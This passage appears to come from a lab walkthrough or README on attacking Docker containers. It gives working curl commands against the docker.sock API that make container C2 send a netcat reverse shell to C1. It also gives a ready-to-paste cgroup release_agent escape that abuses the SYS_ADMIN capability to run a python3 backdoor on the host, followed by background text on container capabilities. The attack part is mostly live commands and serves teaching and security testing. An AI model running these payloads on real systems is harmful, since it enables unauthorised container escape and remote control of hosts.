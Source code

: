 	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

11. Open the shell listener on C1, on which C2 will send the reverse shell.

	`nc -lvp 8080`

12. Now, lets check if we are able to get complete access to C2, Moment of the truth! Run the netcat command from C2 and wait on C1 to recieve the shell.

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["nc","-e","/bin/sh","172.17.0.3", "8080"] }'`

	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`

-----

#### C. Comprimising Underlying OS:

##### Compromising underlying OS using SYS_ADMIN linux capability.

##### TL;DR

Paste the following commands in container C2 and jump to step 8.

	mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/child
	echo 1 > /tmp/cgrp/child/notify_on_release
	path=\`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
	echo "$path/exploit" > /tmp/cgrp/release_agent
	echo "#!/bin/sh" > /exploit
	echo python3 -c "'import socket; s=socket.socket(); s.bind((\"192.168.2.44\",1337)); s.listen(1);(r,z) = s.accept();exec(r.recv(999))'" >> /exploit
	chmod a+x /exploit
	sh -c "echo \$\$ > /tmp/cgrp/child/cgroup.procs"

#### Background: 

*Sometimes containers need to be run with extra privileges to perform some operations on the host operating system itself. These containers are run with --privileged flag which adds some special capabilities to the running container, however, it is not considered a best practice for the security of the system. Any user (or attacker) having access to the container can easily elevate his/her access to the underlying operating system.*

*As a remediation of the above issue, containers are run with the specific capability (whichever is needed) instead of running it as a privileged container (which possess all the capabilities). These capabilities can be listed with `capsh --print` command.*

*In this attack scenario, Container C2 is also running with the such capability SYS_ADMIN. Basically, SYS_ADMIN capability allows the container to perform system administration operations such as  quotactl, mount, umount, swapon, swapoff, sethostname, and setdomainname. Although, not running a container as a privileged one, decreases the security risk however these specific capabilities can also be exploited by issuing some commands and access to the underlying operating system can be gained.*
